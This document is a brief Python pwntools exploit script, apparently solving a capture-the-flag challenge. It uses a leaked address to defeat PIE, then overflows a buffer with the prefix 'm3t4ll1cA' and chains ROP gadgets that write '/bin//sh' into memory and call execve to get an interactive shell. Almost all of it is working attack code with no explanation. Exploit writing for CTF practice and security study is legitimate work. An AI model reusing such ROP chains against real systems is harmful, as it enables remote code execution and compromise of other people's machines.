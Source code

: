```python

def main():
    global r


    ret = 0x0000000000001016 #ret
    pop_rdi = 0x000000000000116f #pop rdi ; ret
    pop_rsi = 0x0000000000001249 #pop rsi ; pop r15 ; ret
    pop_rdx = 0x0000000000001171 #pop rdx ; ret
    pop_rax = 0x000000000000116d #pop rax ; ret
    mov = 0x0000000000001169 # mov qword ptr [rdi], rax ; ret
    syscall = 0x0000000000001173 #syscall

    metallica_base  = 0x04010

    r = conn()

    metallica_addr = int(r.recv().decode(), 16)

    log.info("Leak : 0x{:2x}".format(metallica_addr))

    offset = metallica_addr - metallica_base

    ret_addr = ret + offset
    pop_rdi_addr = pop_rdi + offset
    pop_rsi_addr = pop_rsi + offset
    pop_rax_addr = pop_rax + offset
    mov_addr = mov + offset
    syscall_addr = syscall + offset

    payload = b'm3t4ll1cA'
    payload += b'A' * (16 - len(payload))

    payload += p64(0x9090909090909090) * 3


    payload += p64(pop_rdi_addr)
    payload += p64(metallica_addr)
    payload += p64(pop_rax_addr)
    payload += b'/bin//sh'
    payload += p64(mov_addr)

    payload += p64(pop_rax_addr)
    payload += p64(0x3b)
    payload += p64(pop_rdi_addr)
    payload += p64(metallica_addr)

    payload += p64(pop_rsi_addr)
    payload += p64(0x0)
    payload += p64(0x0)
    payload += p64(syscall_addr)

    log.info("Payload length : "  + str(len(payload)))


    r.send(payload + NL)
    rep = r.recv()
    print(rep)


    r.interactive()

    r.close()
```